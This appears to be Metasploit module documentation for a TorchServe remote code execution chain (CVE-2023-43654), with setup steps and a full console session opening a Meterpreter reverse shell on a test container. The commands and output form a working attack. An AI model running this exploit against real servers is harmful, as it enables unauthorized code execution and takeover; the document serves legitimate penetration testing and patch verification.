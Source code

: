## Vulnerable Application

The PyTorch model server contains multiple vulnerabilities that can be chained together to permit an
unauthenticated remote attacker arbitrary Java code execution. The first vulnerability is that the management
interface is bound to all IP addresses and not just the loop back interface as the documentation suggests. The
second vulnerability (CVE-2023-43654) allows attackers with access to the management interface to register MAR
model files from arbitrary servers. The third vulnerability is that when an MAR file is loaded, it can contain a
YAML configuration file that when deserialized by snakeyaml, can lead to loading an arbitrary Java class.

PyTorch TorchServer versions prior to 0.8.2 are affected. This module was tested against version 0.8.1.

## Verification Steps

1. Install the application
    * `docker run --rm -it -p 8080:8080 -p 8081:8081 pytorch/torchserve:0.8.1-cpu`
2. Start msfconsole
3. Do: `use exploit/multi/http/torchserver_cve_2023_43654`
4. Set the `RHOST`, `PAYLOAD` and payload-related options
5. Do: `run`
6. You should get a shell.

## Options

## Scenarios

### PyTorch TorchServer 0.8.1

```
msf6 exploit(multi/http/torchserver_cve_2023_43654) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/torchserver_cve_2023_43654) > set PAYLOAD java/meterpreter/reverse_tcp
PAYLOAD => java/meterpreter/reverse_tcp
msf6 exploit(multi/http/torchserver_cve_2023_43654) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/torchserver_cve_2023_43654) > run
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 0.8.1 is vulnerable.
[*] Using URL: http://192.168.159.128:9090/exploit/
[*] Registering the model archive...
[+] Sending model archive
[*] Sending stage (59909 bytes) to 172.17.0.2
[*] Meterpreter session 3 opened (192.168.159.128:4444 -> 172.17.0.2:39480) at 2023-10-05 16:13:54 -0400
[*] Server stopped.

meterpreter > getuid
Server username: model-server
meterpreter > sysinfo
Computer        : 4dbcfe5cc11c
OS              : Linux 6.2.15-100.fc36.x86_64 (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
meterpreter > pwd
/home/model-server
meterpreter > 
```
